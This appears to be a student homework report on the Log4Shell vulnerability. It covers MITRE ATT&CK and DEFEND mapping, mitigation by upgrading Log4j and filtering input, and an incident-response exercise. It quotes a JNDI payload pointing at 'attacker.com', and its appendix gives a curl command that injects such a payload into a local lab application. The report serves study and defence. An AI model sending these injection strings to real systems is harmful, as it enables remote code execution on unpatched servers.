


# SEAS-8405—Homework 9—Summary Report

This report reviews the recent Log4Shell zero-day vulnerability and attempts to simulate the vulnerability. 
Furthermore, the report will include a security analysis with threat modeling using MITRE ATT&CK mapping and MITRE DEFEND
to help identify effective mitigation controls. In addition, the report will present the architecture used to
demonstrate the vulnerability and later to validate the controls. Finally, the report will reflect on the event response process 
and lessons learned.

## 1. Log4Shell Vulnerability Explained
The Log4Shell vulnerability was identified as a zero-day vulnerability in certain versions of the Apache Log4j library, 
enabling remote code execution or RCE. The vulnerability exploits a Log4Shell feature called Message Lookups, allowing 
requests with embedded content like \${jndi:ldap://attacker.com/a} within log messages to be executed and calling an attacker-controlled server. 
This malicious server could respond with a reference to a remote Java class, which the vulnerable application's JVM downloads and executes, 
granting the attacker control over the system.

## 2. The architecture

The architecture to help demonstrate the vulnerability is a relatively simple Spring Boot application, deployed in a Docker container.
To help simulate the call to an attacker-controlled server, a simple LDAP server was configured outside the Docker container. Calling the
vulnerable application with the JNDI script embedded in the request resulted in the attacker's LDAP server to be called.

## MITRE ATT&CK
MITRE ATT&CK is a knowledge base of adversary tactics and techniques based on real-world observations (TTP). 
It describes actions a malicious user might perform during a cyberattack. Mapping the vulnerabilities presented by
the Log4Shell zero-day vulnerability to TTPs provides specific control measures to implement to help mitigate vulnerabilities.

## MITRE ATT&CK Mapping

| Tactic               | Techniques (Examples)                                                                                | Relevance                                                                                                                             |
|----------------------|------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------|
| Initial Access       | T1190 (Exploit Public-Facing Application)                                                            | Exploiting vulnerabilities in Log4Shell's JNDI invocation.                                                                            |
| Execution            | T1059 (Command and Scripting Interpreter)                                                            | Malicious users exploiting the Log4Shell vulnerability by embedding a JNDI string, resulting in a call to the attackers LDAP service. |
| Persistence| T1078 (Valid Accounts)                                                                               | Call to malicious LDAP server might result in modifying existing user accounts, helping to establish persistence.                     |
| Privilege Escalation | T1068 (Exploitation for Privilege Escalation)                                                        | Gaining higher-level permissions or authorizations by modifying accounts.                                                             |
| Discovery            | T1082 (System Information Discovery), T1087 (Account Discovery), T1069 (Permission Groups Discovery) | Gaining knowledge about the system and network.                                                                                       |
| Lateral Movement | T1021 (Remote Services)                                                                              | Using other services like SSH to move laterally.|
| Impact| T1486 (Data Encrypted for Impact (Ransomware))                                                       | Encrypting data for ransom.|

## MITRE DEFEND
Using the MITRE DEFEND frameworks, several attack and defense actions were identified related to the Log4Shell 
zero-day vulnerability.

## 3. Mitigation and response summary
Multiple mitigation controls were identified using the MITRE DEFEND process, as seen above. Given the severity of the vulnerability
and the urgency to mitigate the issue, two defense actions will be discussed in detail and implemented in this exercise. The first
control is to patch/upgrade the version of Log4J that had this vulnerability already mitigated. By upgrading Log4J from version 2.14 to
2.17 we've remediated the vulnerability of malicious users embedding JNDI strings, resulting in a call to an attacker-controlled server.
The second control implemented was Content Filtering, filtering log statements for malicious scripts embedded in them. When a malicious
pattern is recognized, we prevent the script from being handed to the Log4J library and executed.

## 4. Reflection on the incident response, lessons learned
Log4J has been a very popular and common open-source library used widely. Yet, even widely used components could foster critical exploitable
vulnerabilities and should not be overlooked.

One of the most important Defense in Depth lessons is to have a layered security posture. Applications are bound to have multiple 
vulnerabilities that a single control will not remediate. Vulnerabilities exist in code and configurations alike. Default configurations 
should be understood, vetted, and modified if necessary, along with limiting the attack surface by using only required components with least privileged access. 
Implementing a Secure Software Development Life Cycle or SSDLC is paramount in identifying vulnerabilities early and often. Patch even trusted components
as soon as possible to make sure no known vulnerability is exploitable.

## 5. Appendix

### 5.1 Specific commands executed during the exercise
#### 1. Steps to reproduce Log4Shell zero-day vulnerability
1. Run docker compose up --build
2. Run python simple_ldap_server.py
3. Validate LDAP server by running: ldapsearch -x -H ldap://localhost:389 -b "dc=example,dc=org" "(cn=bob)"
4. Run curl -X POST -H 'Content-Type: text/plain' --data-raw '\${jndi:ldap://host.docker.internal:389/a}' http://localhost:8080/log
5. See JNDI call to LDAP server due to Log4Shell vulnerability.

#### 2. Steps to attempt to reproduce after mitigation controls
1. Run docker compose up --build
2. Run python simple_ldap_server.py
3. Validate LDAP server by running: ldapsearch -x -H ldap://localhost:389 -b "dc=example,dc=org" "(cn=bob)"
4. Run curl -X POST -H 'Content-Type: text/plain' --data-raw '\${jndi:ldap://host.docker.internal:389/a}' http://localhost:8080/log
5. See the "Invalid input detected!" message.
6. Run a benign command: curl -X POST http://localhost:8080/log -d 'Hello, world!'
7. See Logged: Hello%2C+world%21=%

#### 3. Simulating the incident response
1. Detect incident by checking the Docker logs for "${jndi:" request fragment. 
    - Execute "docker compose logs app"
2. Contain the incident by stoping the vulnerable container
    - Execute "docker compose down"
3. Eradicate: Confirm that no malicious processes are running.
    - Execute "docker ps -a"
4. Recover by deploying the patched application
    - Run "docker compose up --build"
5. Explanation:
    - Detect: Identified the attack via logs.
    - Contain: Isolated the system by stopping the container.
    - Eradicate: Ensured no residual threats.
    - Recover: Restored a secure version.